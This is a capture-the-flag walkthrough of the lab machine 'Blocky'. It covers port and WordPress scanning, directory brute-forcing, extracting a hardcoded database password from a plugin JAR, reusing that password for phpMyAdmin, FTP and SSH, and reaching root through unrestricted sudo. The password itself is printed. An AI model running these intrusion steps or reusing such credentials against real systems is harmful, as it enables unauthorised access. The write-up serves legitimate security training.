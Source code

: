 # Blocky


## Recon

### Service Discovery
Begin, as usual, with an `nmap` scan:

```
$ nmap -sV -sC -T4 -oN nmap_scan.txt 10.10.10.37
Not shown: 996 filtered ports
PORT     STATE  SERVICE VERSION
21/tcp   open   ftp     ProFTPD 1.3.5a
22/tcp   open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp   open   http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
8192/tcp closed sophos
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

The target is a Unix box that is running FTP, SSH, and HTTP. Since the site is
built on WordPress, let's run `wpscan` to enumerate users and vulnerable
plugins:

```
$ wpscan --url http://10.10.10.37 --enumerate u, vp -o wpscan.log

...REDACTED...

[i] User(s) Identified:

[+] notch
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://10.10.10.37/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Notch
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

...REDACTED...
```

I redacted some of the scan info, but we can see that there is a Notch user.
Let's use `gobuster` to find a hidden admin login panel:

```
$ gobuster dir -u http://10.10.10.37 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt | tee gobuster.txt

/wiki                 (Status: 301) [Size: 309] [--> http://10.10.10.37/wiki/]
/wp-content           (Status: 301) [Size: 315] [--> http://10.10.10.37/wp-content/]
/plugins              (Status: 301) [Size: 312] [--> http://10.10.10.37/plugins/]   
/wp-includes          (Status: 301) [Size: 316] [--> http://10.10.10.37/wp-includes/]
/javascript           (Status: 301) [Size: 315] [--> http://10.10.10.37/javascript/] 
/wp-admin             (Status: 301) [Size: 313] [--> http://10.10.10.37/wp-admin/]   
/phpmyadmin           (Status: 301) [Size: 315] [--> http://10.10.10.37/phpmyadmin/]
```

Looks like we can login to either /wp-admin or /phpmyadmin. At this point, we
can try to brute force the credentials with a tool like `hydra`. However, I
wanted to continue looking around the website for any other key info.


### Information Discovery

In the /plugins folder are two JAR (**J**ava **A**rchive) files. Download and
extract them.

```
$ wget http://10.10.10.37/plugins/files/BlockyCore.jar 
$ wget http://10.10.10.37/plugins/files/griefprevention-1.11.2-3.1.1.298.jar
$ jar -xf BlockyCore.jar
$ jar -xf griefprevention*.jar
```

Both files are now extracted. I was able to find something interesting by
running `strings` on com/myfirstplugin/BlockyCore.class:

```
$ strings com/myfirstplugin/BlockyCore.class
com/myfirstplugin/BlockyCore                                                                                                                                                                                     
java/lang/Object                                                                                                                                                                                                 
sqlHost
Ljava/lang/String;
sqlUser
sqlPass
<init>
Code
        localhost
root
8YsqfCTnvxAUeduzjNSXe22
LineNumberTable
LocalVariableTable
this
Lcom/myfirstplugin/BlockyCore;
onServerStart
onServerStop
onPlayerJoin
TODO get username
!Welcome to the BlockyCraft!!!!!!!
sendMessage
'(Ljava/lang/String;Ljava/lang/String;)V
username
message
SourceFile
BlockyCore.java
```

## Initial Foothold (rabbit-hole)

We see the username `root` and password `8YsqfCTnvxAUeduzjNSXe22`! I used these
credentials to log into the /phpmyadmin page, but not the /wp-login page.

In the phpmyadmin panel I found the below user information:

![wp_users](./screenshots/wp_users.png)

There's the password hash for the Notch user! This hash could not be cracked
with crackstation, so I googled "$P$ hash" and found [this StackOverflow
post](https://stackoverflow.com/questions/1045988/what-type-of-hash-does-wordpress-use).

It states that this has uses the [portable PHP password hashing
framework](https://www.openwall.com/phpass/).

I figured if I could login to the wp-login page, I could upload a PHP reverse
shell and compromise the machine. I went down a rabbit hole trying to crack
Notch's password with a python script I pulled from GitHub. 

This did not work. Next, I tried changing Notch's password in the phpmyadmin
panel:

![edit password](./screenshots/edit.png)

## Initial Foothold (success)

Even after this edit I could not log into the WordPress page! So I gave up on
the web server and tried FTP and SSH. I was able to log into both with the
credentials **notch:8YsqfCTnvxAUeduzjNSXe22**!

In either the FTP or SSH server, the user flag is found in the `user.txt` file.

## Privilege Escalation

Now we need to find the root flag. One privilege escalation technique that I
always start with it `sudo -l` to list what, if any, commands the current user
can run as root.

```
$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```

The "(ALL : ALL) ALL" means we can run all commands as root! So we can easily
`cat` out the root flag:

```
$ sudo cat /root/root.txt
```

## Conclusion

I went down a rabbit hole with trying to crack Notch's WordPress password. Even
though I was unsuccessful, I learn a couple things from it:
- WordPress replaced md5 hashes with portable PHP hashes
- [There is a GitHub repo for cracking php hashes](https://github.com/micahflee/phpass_crack)
